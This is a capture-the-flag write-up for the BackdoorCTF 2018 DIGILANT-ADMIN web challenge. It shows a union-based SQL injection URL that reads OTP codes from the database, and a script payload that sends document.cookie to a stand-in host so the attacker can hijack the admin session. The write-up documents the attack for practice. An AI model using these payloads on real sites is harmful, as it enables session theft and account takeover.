 ```yaml
---
layout: post
title: BackdoorCTF 2018 - DIGILANT-ADMIN
author:
  name: Crisis
  github: Qrisis
  twitter: crisiswic
---
```

Here's my solution for the DIGILANT-ADMIN challenge of the 2018 BackdoorCTF. I'm not sure wether I got the flag the intended way since there has been quite a few technical problems during the event, but here's how I did it anyway.

First of all, this was the challenge's description :  
![](https://i.imgur.com/vemjbMy.png)

Once on the website, you could create an account by providing an email adress, and then log in with the OTP sent to that email adress.   
![](https://i.imgur.com/Bch0ZOm.png)

Once logged in, the main thing you could do was to post a new message :  
![](https://i.imgur.com/qY08mZY.png)
And report messages to the admin :  
![](https://i.imgur.com/KOyK8oe.png)

The other interesting thing was the "Giveme flag" page, which stated :  
```
No admin No flag
```


So my first idea was of course to try and find an exploitable XSS to log in as admin. I tried a few things, but it wasn't executing on the url where you could see your post :  
```
http://51.15.73.163/DIGILANT-ADMIN/posts.php?id=000af61e777d34ab
```  
So I tried a few other things, and I found that the id parameter was vulnerable to an SQL injection and to an XSS injection :  
![](https://i.imgur.com/2pIbQat.png)  
I tried to steal the admin cookie with that XSS, but the bot wasn't clicking on my link. And the results of the SQL injections were also confusing at first since I couldn't read them. After testing a few things, I found out why : the results were decrypted as base64 before being returned. So the easy fix was to base64 encode it, as such :  
![](https://i.imgur.com/zXCRAmp.png)  
Since I wasn't successfull with the XSS, I decided to try exploiting the SQL to get the admin pass and OTP. With the help of SQLMap, I dumped the content of the database :  
![](https://i.imgur.com/87bPuIJ.png)  
  etc.  
![](https://i.imgur.com/TlhkZJE.png)  
etc.     
  
And in theory I could have been done since I could have just logged in as "admin" and got the OTP directly from the database :  
```sql
http://51.15.73.163/DIGILANT-ADMIN/posts.php?id=-1' UNION ALL SELECT to_base64(otp) FROM OTP WHERE umail='2d3686a381fa880ddab@gmail.com' -- - 
```
But the problem was that I had no way to know which user was the admin. As you can see on the screenshot above there was many "random hash" accounts, and none of the accounts with the name "admin" in them was the real one. After trying a few of them, I decided to find another way rather than stupidly trying them all.  
In the dump of the database, I noticed that many people had reported URLs like this :  
![](https://i.imgur.com/UQigMAO.png)  
That gave me a big hint. I had already noticed that HTML/JS was being executed on the homepage, and upon closer inspection of the code it turned out that there was a way to exploit an XSS in your posts:  
![](https://i.imgur.com/m3cyYe3.png)  
You just had to access your post's URL with `&full=true` appended to it :  
![](https://i.imgur.com/L8RjsKN.png)  

I made a new one with the standard 
```html
<script>location.replace('yoursite.com?cookie='+document.cookie)</script>
```
injection, and I got the admin's PHPSESSID on requestbin :  
![](https://i.imgur.com/6kwpoqS.png)  

I modified my cookie, but got kicked out :
```Login attempted from another IP address. Login again```  
Which was a problem since I still had no idea what the admin username was. But it turned out that if you tried logging in again with any account, you could briefly see the admin's name:  
![](https://i.imgur.com/gFq9PJw.png)  
I'm not sure wether this was intended or not. All I had to do then was to login with that username and get the OTP from the database, as shown before. But that wasn't even necessary, because if you entered a wrong OTP, the website would just show you right one (here I just put "12" in):  
![](https://i.imgur.com/sBZPX8Z.png)  
Not sure if that was a bug or not either, but you could then just log in like that. And get the flag from the "Giveme flag" page :  
![](https://i.imgur.com/1jyENgf.png)  